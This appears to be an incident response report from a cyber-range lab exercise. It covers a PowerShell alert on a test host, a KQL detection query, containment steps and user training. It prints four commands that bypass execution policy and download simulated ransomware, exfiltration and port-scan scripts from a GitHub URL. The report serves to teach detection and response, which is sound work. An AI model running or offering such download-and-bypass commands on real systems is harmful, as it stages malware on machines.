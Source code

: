 ## Incident Response Report: PowerShell Suspicious Web Request

Incident ID: IR20250623-001

Date: June 23, 2025

---

### Detection and Analysis

On June 23, 2025, an incident titled "**PowerShell Suspicious Web Req.**" was triggered on **windows-target-1**. The alert indicated that **four different PowerShell scripts** were downloaded via `Invoke-WebRequest` commands. The incident was triggered by **one user** on this single device.

The following PowerShell commands were executed:

- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1`
- `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1`

Upon contacting the affected user, they stated that they attempted to install "free software," observed a momentary black screen, and then "nothing happened."

Further investigation using **Microsoft Defender for Endpoint (MDE)** confirmed that the downloaded scripts did run. The following KQL query was used to verify script execution:

Code snippet;
````sql
`let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine`

The downloaded scripts were submitted to the malware reverse engineering team, who provided the following analysis:

- **pwncrypt.ps1:** A PowerShell script simulating ransomware encryption.
- **eicar.ps1:** A PowerShell script designed to generate the EICAR test file for antivirus testing.
- **portscan.ps1:** A PowerShell script for performing network port scanning.
- **exfiltratedata.ps1:** A PowerShell script simulating data exfiltration.

---

### Containment, Eradication, and Recovery

1. The affected machine, **windows-target-1**, was immediately **isolated** in Microsoft Defender for Endpoint.
2. A full anti-malware scan was initiated on the isolated machine.
3. After the scan completed with no detected threats, the machine was **removed from isolation**.

---

### Post-Incident Activities

1. The affected user was enrolled in **additional cybersecurity awareness training**, and the organization's training package with KnowBe4 was upgraded.
2. Implementation of a new policy restricting PowerShell usage for non-essential users has begun to prevent similar incidents.
